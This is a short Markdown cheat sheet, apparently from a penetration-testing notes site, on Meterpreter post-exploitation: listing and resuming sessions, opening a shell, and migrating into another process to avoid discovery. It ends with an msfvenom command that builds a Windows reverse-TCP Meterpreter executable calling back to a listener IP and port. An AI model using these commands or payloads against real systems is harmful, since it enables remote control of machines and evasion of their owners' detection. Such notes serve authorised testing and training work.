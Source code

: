 ```yaml
---
layout: default
title: METERPRETER
parent: CHEATSHEETS
has_children: true
has_toc: false
---
```


{% include toc.html %}

## List sessions
```
sessions
```

## Open a shell
```
meterpreter> shell                  // Open a shell
C:\WINDOWS\> exit                   // Exit shell back to Meterpreter
```

## Background session
So you can run something else, such as local_exploit_suggester:
```
meterpreter> background
```

## Return to existing meterpreter session
```
sessions -i 1
```

## Migrate into another process
Move to a more stable process that has less chance of being discovered or closed. List the processes and find the pid to migrate to:
```
meterpreter> ps                     // List processes (alternative: shell > tasklist /v > exit)
meterpreter> migrate <pid>          // Migrate into target process
```

On Windows, migrating to `explorer.exe` will show up in `ProcessExplorer`. For example, opening a command prompt and pinging another machine will be visible in `ProcessExplorer`.

## Windows Shells
```
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -f exe -a x64  LHOST=10.10.14.18 LPORT=4444 -o metrev.exe
```